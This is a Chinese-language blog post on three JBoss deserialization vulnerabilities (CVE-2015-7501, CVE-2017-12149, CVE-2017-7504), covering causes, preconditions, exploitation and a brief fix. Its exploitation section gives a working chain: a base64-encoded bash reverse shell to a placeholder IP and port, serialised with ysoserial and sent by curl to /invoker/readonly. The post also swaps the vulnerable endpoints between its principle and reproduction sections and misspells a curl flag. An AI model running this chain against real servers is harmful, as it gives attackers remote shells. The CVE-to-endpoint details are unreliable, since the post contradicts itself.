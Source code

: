 ```yaml
---
layout: post
title: JBoss 漏洞整理
date: 2022-8-31
categories: blog
tags: [漏洞复现,jboss]
description: jboss


---
```

### JBoss反序列化

RMI数据传输基于反序列化，服务中若实现RMI的调用且具有对象，那么就可能造成反序列化漏洞。JMX服务基于RMI实现，且将凭证作为对象传入

#### **CVE-2015-7501漏洞原理**

JBoss中的`/invoker/JMXInvokerServlet`请求中读取用户传入的对象,可以任意代码执行

#### **CVE-2017-12149漏洞原理**

JBoss的`HttpInvoker`组件中的`ReadOnlyAccessFilter`过滤器没有安全检查就进行反序列化

#### CVE-2017-7504漏洞原理

JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞

### 利用条件

1. /invoker/readonly目录存在且能访问
2. 版本号为5.x/6.x
2. `/invoker/JMXInvokerServlet(JMXInvokerServlet漏洞指纹)`&`/invoker/readonly(jboss 6.0反序列化漏洞指纹)`

### **漏洞复现**

`只能通过链式调用来执行java语句，执行的语句必须可以写到一行里面，而且还不能带分号`
ysoserial.jar包的CommonsCollections5链把要执行的反弹shell生成一个ser文件  
访问`/invoker/readonly`对三个漏洞均适用

#### CVE-2015-7501

漏洞存在`/jbossmq-httpil/HTTPServerILServlet`中，将payload作为`POST Body`发送至`/jbossmq-httpil/HTTPServerILServlet`即可

#### CVE-2017-12149

漏洞存在`/invoker/readonly`中，将payload作为`POST Body`发送至`/invoker/readonly`即可

#### CVE-2017-7504

漏洞存在`/invoker/JMXInvokerServlet`中，将payload作为`POST Body`发送至`JMXInvokerServlet-deserialization`即可

#### 漏洞利用

```shell
#利用runtime-exec-payloads生成代码
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}
#利用ysoserial生成序列化数据
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9JUC9QT1JUIDA+JjE=}|{base64,-d}|{bash,-i}" > test.ser
#利用curl发送数据利用
curl IP:PORT/invoker/readonly --databinary @test.ser
```

### **漏洞修复**

禁止将JBoss的**JMXInvokerServlet**接口（默认8080）以及JBoss Web Console对外网开放
